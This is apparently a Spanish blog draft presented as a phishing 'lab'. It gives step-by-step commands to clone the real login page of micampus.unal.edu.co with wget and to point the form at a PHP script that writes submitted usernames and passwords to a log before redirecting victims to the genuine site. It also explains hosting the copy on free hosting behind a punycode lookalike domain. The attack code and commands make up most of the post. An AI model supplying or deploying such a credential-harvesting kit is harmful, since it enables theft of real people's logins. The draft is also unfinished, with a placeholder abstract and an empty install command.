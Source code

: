 ```yaml
---
title: Laboratorio de pishing
author: Fredy Rosero
tags: [laboratorio, pishing]
date: 2022-05-20'
layout: post
categories: [laboratorios]
excerpt_separator: <!--more-->
---
```

![thumbnail]()

Abstract.
 <!--more-->

## Prerrequisitos
```bash
sudo apt install
```

## Método manual

### WGet
-E
--adjust-extension
> If a file of type application/xhtml+xml or text/html is downloaded and the URL does not end with the regexp \.[Hh][Tt][Mm][Ll]?, this option will cause the suffix .html to be appended to the local filename.

-H
--span-hosts
> Enable spanning across hosts when doing recursive retrieving. 

-k
--convert-links
> After the download is complete, convert the links in the document to make them suitable for local  viewing.

-K
--backup-converted
> When converting a file, back up the original version with a .orig suffix. Affects the behavior of -N. 
-p
--page-requisites
> This option causes Wget to download all the files that are necessary to properly display a given HTML page.

-nH
--no-host-directories
> Disable generation of host-prefixed directories.

#### Descarga de página
```bash
URL=https://micampus.unal.edu.co/
USER_AGENT='"Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/60.0"'
WEB_PATH=$(pwd)/web
wget -E -H -k -K -p -nH --cut-dirs=100 -nv $URL --user-agent $USER_AGENT --directory-prefix=$WEB_PATH
```
### Index.html
Vamos a copiar el archivo `index.html`
```bash
cd web
cp index.html index.html.bkp
vim index.html
# :q
```

Luego lo formateamos con tidy
```bash
tidy -indent --indent-spaces 2 --quiet --tidy-mark no index.html.bkp > index.html
```

Ahora buscamos el formulario de login y cambiamos su atributo [`action`](https://developer.mozilla.org/es/docs/Web/HTML/Element/form#attr-action) a `pish.hp` el cual será la URI del programa que procesará la información enviada por medio del formulario.
```bash
vim index.html
# q/i action=
# vi"c
# phish.php
# :w
```

Tambien identificamos el atributo `name` de los inputs del mismo formulario
```bash
# q/i name=
# :q
```

Ahora creamos el archivo `phish.php` con el comando `vim phish.php`, pegamos y el siguiente contenido y salimos con `:wq`
```php
<?php
// Extraer Form data
$form_data = file_get_contents('php://input'); // Guardar cuerpo de la petición en un string
parse_str($form_data, $parsed); // Parsea un string a variables

// Construimos el mensaje a guardar
$log = "=============+=============\n";
$log .= "Username:	" . $parsed['username'] . "\n";
$log .= "Password:	" . $parsed['password'] . "\n";
$log .= "===========================\n\n\n";

// Escribimos en el archivo `log`
$logpath = "log";
$file = fopen($logpath, 'a'); // la opción a (de append) permite abrir para agregar
fwrite($file, $log);
fclose($file);

// redirection link will be set automatically
$URL = "https://micampus.unal.edu.co/";
header("Location: ${URL}");
?>
```

Lanzamos el servidor web standalond de php con
```bash
php -S 0.0.0.0:8081
```
### Servidor web
1. Solicitamos un hosting grauito en 000webhost.com
1. Definimos el dominio p. ej. *i❤️uqbar.ml*
1. Traducimos la url a punycode en [punycoder](https://www.punycoder.com/) p. ej. *xn--iuqbar-i50d.ml*
1. Creamos un dominio en freenom.com y asignamos la redirección o registro DNS p. ej. *http://test-uqbar.000webhostapp.com/*. Esto implica verificar el correo



